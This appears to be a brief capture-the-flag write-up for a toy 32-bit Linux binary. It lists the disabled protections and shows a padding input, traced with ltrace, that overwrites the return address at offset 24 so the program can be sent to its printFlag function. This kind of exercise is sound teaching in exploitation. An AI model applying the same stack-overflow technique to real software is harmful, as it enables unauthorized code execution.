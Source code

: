 0x0 Introduction
=

```
bby: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=3fb9014d549efe4ce761146b736590eb9f7e281d, not stripped
```

This file is ELF 32bit execution.
```
	CANARY    : disabled
	FORTIFY   : disabled
	NX        : ENABLED
	PIE       : disabled	
	RELRO     : Partial
```
It have those protect.

`0804856d <printFlag>:`

And there hava a function call printFlag.If I can controller eip and jump to this function,I will get the flag.

0x1 Vulnerability
=
```
	# python -c "print 'a'*24+'zzzz'"|ltrace -i ./bby 

	[0x8048491] __libc_start_main(0x80485c9, 1, 0xffb97214, 0x8048610 <unfinished ...>

	[0x80485de] puts("This program is hungry. You shou"...This program is hungry. You should feed it.) = 44

	[0x80485f2] __isoc99_scanf(0x80486d8, 0xffb97164, 0xffb9721c, 0xf75573fd) = 1

	[0x80485fe] puts("Do you feel the flow?"Do you feel the flow?)        = 22

	[0x7a7a7a7a] --- SIGSEGV (Segmentation fault) ---

	[0xffffffffffffffff] +++ killed by SIGSEGV +++
```
It's easy to exploit,When input padding 24bytes,Next 4 bytes will be return address.
